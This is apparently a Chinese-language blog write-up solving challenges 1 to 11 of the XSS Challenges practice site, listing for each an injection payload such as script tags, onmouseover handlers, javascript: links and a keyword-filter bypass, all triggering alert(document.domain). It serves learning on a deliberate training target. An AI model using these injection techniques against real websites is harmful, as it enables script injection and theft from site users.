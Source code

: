 ```yaml
---
layout: post
author: "kele"
date: "2018-02-28 15:45:43"
title: "XSS Challenges solution"
tags: 
  - xss
---
```

# XSS Challenges solution   
题目地址:http://xss-quiz.int21h.jp   

## challenge 1 
输出在搜索结果里面，有引号包围，所以先闭合双引号，然后为所欲为就可以了     
payload: `"<svg onload=alert(document.domain)>`   

## challenge 2 
输出在搜索框里面，闭合tag和双引号  
payload: `"><script>alert(document.domain)</script>`

## challenge 3 
input 输入框被逃逸了，但是其实还有一个输入点是那个单选下拉菜单，使用开发者工具，修改一个国家的文本为 :    
payload: `</b><svg onload=alert(document.domain)>`   

## challenge 4 
使用开发者工具看到隐藏表单进行xss 
payload: `"><svg onload=alert(document.domain)>`  

## chanllenge 5 
输入框限制长度，直接用开发者工具把`max-length`设置成100  
payload: `" onmouseover=alert(document.domain) "`
前面双引号用来闭合value，后面双引号用来闭合多出来的一个双引号   

## challenge 6 
和上面的payload 一样  

## challenge 7 
和上面一样。。。。

## challenge 8 
javascript 协议 
payload: `javascript:alert(document.domain)` 

## <del>challenge 9  </del>
漏洞是ie7 的。。。。放弃了   
直接用开发者工具在源码加一个alert,跳过吧 pass 

## challenge 10 
使用正则替换掉了domain为空    
payload: `" onmouseover=alert(document.domadomainin) `   

## challenge 11 
利用正则替换了script on style  
所以可以用伪协议  
payload: `"><a href="javascript:alert(document.domain);">test</a>`

后面有许多ie特性，实在不想做了，干脆看看wp学一波。。。。